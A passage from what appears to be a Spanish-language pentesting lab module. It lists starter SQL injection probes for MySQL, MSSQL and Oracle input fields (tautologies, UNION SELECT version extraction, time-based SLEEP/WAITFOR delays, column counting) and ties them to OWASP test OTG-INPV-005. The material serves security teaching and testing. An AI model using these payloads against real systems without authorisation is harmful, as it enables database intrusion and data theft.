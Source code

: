 <img src="/img/LAB1.7.png" alt="LAB1.7" style="width: 300px" />
<img src="/img/LAB1.5.png" alt="LAB1.5" style="width: 500px" />

## Extra

>**Estos son algunos ejemplos que probaría en los distintos campos de entrada para comenzar el reconocimiento de esta vulnerabilidad. Esta se encuentra asociada al control OTG-INPV-005 ("Input Validation") del OWASP Testing Guide.**

>**Si quieres profundizar en este punto del OTG, o conocer más sobre la metodología que aplico día a día como pentester, al final del módulo vas a encontrar un artículo personal en el que detallo cómo integro el OWASP Test Guide en mis flujos de análisis.**

🐬 **MySQL**
```SQL
' OR '1'='1' -- 
' UNION SELECT null, version() -- 
' AND SLEEP(5) -- 
' ORDER BY 3 -- 
```

🧱 **MSSQL**
```SQL
' OR 1=1 -- 
' UNION SELECT NULL, @@version -- 
' AND 1=CONVERT(INT, '1') -- 
' WAITFOR DELAY '00:00:05' -- 
```

🧿 **Oracle**
```SQL
' OR 1=1 -- 
' UNION SELECT null FROM dual -- 
' AND 1=(SELECT COUNT(*) FROM all_users) -- 
' AND EXISTS(SELECT 1 FROM dual WHERE 1=1) -- 
```
